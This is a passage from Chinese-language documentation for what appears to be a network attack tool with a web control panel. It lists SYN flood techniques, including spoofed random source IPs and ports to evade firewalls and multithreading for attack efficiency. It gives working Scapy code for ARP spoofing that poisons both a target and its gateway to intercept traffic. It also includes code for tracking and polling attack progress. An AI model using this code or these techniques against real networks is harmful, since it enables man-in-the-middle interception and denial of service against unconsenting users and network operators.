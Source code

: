 #### 3.1.3 关键技术点
- 使用随机源IP地址和端口以避开防火墙检测
- 多线程并发发送提高攻击效率
- 实时统计发送的数据包数量和攻击进度
- 支持攻击过程中的暂停和恢复功能

### 3.2 ARP欺骗攻击

#### 3.2.1 技术原理
ARP欺骗攻击通过发送伪造的ARP响应消息，将攻击者的MAC地址与目标主机或默认网关的IP地址关联起来，从而使网络流量通过攻击者的设备，实现中间人攻击。

#### 3.2.2 实现方法
```python
# 告诉目标我是网关
packet1 = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip)
# 告诉网关我是目标
packet2 = ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip)
    
# 定期发送ARP包维持欺骗
while not stop_event.is_set():
    send(packet1, verbose=0)
    send(packet2, verbose=0)
    time.sleep(2)  # 每2秒发送一次
```

#### 3.2.3 关键技术点
- 自动检测网关IP和网络接口
- 获取目标和网关的MAC地址
- 使用线程持续发送欺骗数据包
- 提供攻击状态实时监控和停止机制

### 3.3 实时进度监控

#### 3.3.1 技术实现
- 使用服务器端状态跟踪
  ```python
  AttackTools.attack_stats["syn_flood"][attack_id] = {
      "packets_sent": 0,
      "start_time": time.time(),
      "progress": 0
  }
  ```

- 客户端定时轮询状态更新
  ```javascript
  function updateSynAttackStatus() {
      fetch(`/syn_flood/status?attack_id=${activeSynAttackId}`)
          .then(response => response.json())
          .then(result => {
              // 更新进度条和统计信息
          });
  }
  ```
